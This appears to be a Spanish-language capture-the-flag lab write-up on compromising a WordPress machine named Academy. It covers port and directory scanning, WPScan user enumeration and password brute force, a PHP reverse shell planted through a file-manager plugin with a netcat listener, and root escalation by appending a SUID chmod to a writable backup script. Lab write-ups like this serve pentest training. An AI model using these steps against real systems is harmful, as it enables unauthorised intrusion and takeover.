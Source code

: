 # Lab de Pentesting: Explotación y escalada de privilegios en máquina Academy (WordPress)

Este repositorio documenta paso a paso cómo comprometer una máquina con **WordPress** mediante enumeración, fuerza bruta de credenciales y la explotación de un plugin vulnerable, logrando finalmente escalar privilegios hasta obtener acceso root.

---

## Resumen

El objetivo fue identificar servicios expuestos, reconocer la tecnología del sitio, obtener acceso al panel de administración de WordPress mediante credenciales débiles, cargar una webshell para ejecutar comandos y, finalmente, escalar privilegios abusando de permisos de escritura en un script de respaldo.

---

## Herramientas utilizadas

- `ping`
- `nmap`
- `gobuster`
- `nano`
- `wpscan`
- `netcat`
- `chmod`
- `bash`

---

## Pasos realizados

### 1. Verificar conectividad con ping

```bash
ping -c 1 192.168.173.130
```

Se comprobó que la máquina objetivo está activa.

---

### 2. Escaneo de puertos con Nmap

```bash
nmap -sS -sC -sV --min-rate 5000 -p- -n -vvv 192.168.173.130 --open -Pn -oN scan.txt
```

Se identificó un servicio HTTP en el puerto **80**.

---

### 3. Enumeración de directorios con Gobuster

```bash
gobuster dir -u http://192.168.173.130 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x php,txt,html,py
```

Se descubrió la presencia de un **WordPress**.

---

### 4. Resolución del dominio

Al inspeccionar el código fuente (`CTRL+U`) se encontró la referencia al dominio:

```
academy.thl
```

Se añadió al archivo `/etc/hosts`:

```bash
nano /etc/hosts
192.168.173.130 academy.thl
```

Con esto el dominio resolvió correctamente.

---

### 5. Enumeración de usuarios y plugins con WPScan

```bash
wpscan --url http://192.168.173.130/wordpress -e u,p --plugins-detection aggressive
```

Se identificó al usuario:

- `dylan`

Posteriormente, con fuerza bruta:

```bash
wpscan --url http://192.168.173.130/wordpress -U dylan -P /usr/share/wordlists/metasploit/unix_passwords.txt
```

Se encontraron las credenciales:

- **Usuario:** dylan  
- **Contraseña:** password1

---

### 6. Acceso al panel de WordPress

Se ingresó con el usuario **dylan** y se aprovechó el plugin **Big File Manager** para modificar `index.php`.  
Se reemplazó su contenido con un **PHP reverse shell** (Pentestmonkey), configurando la IP de la máquina atacante y el puerto 1234.

---

### 7. Ejecución del reverse shell

En la máquina atacante:

```bash
nc -lvnp 1234
```

En el navegador:

```
http://academy.thl/wordpress/
```

Se obtuvo acceso remoto.  
Se mejoró la sesión con:

```bash
script /dev/null -c bash
```

---

### 8. Escalada de privilegios

Se observó que había permisos de escritura. Se creó un archivo de respaldo malicioso:

```bash
echo 'chmod u+s /bin/bash' >> backup.sh
chmod u+x backup.sh
```

Después de ejecutarse, se obtuvo una bash con privilegios:

```bash
bash -p
```

Verificación:

```bash
whoami
root
```

Acceso **root** confirmado.

---

## Resultados finales

- Acceso al panel de administración de WordPress mediante credenciales débiles.
- Ejecución de un **PHP reverse shell** a través de un plugin vulnerable.
- Escalada de privilegios explotando permisos de escritura en `backup.sh`.
- Acceso root conseguido y obtención de las flags en [TheHackersLabs](https://thehackerslabs.com/).

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético.  
No debe usarse en sistemas sin autorización.

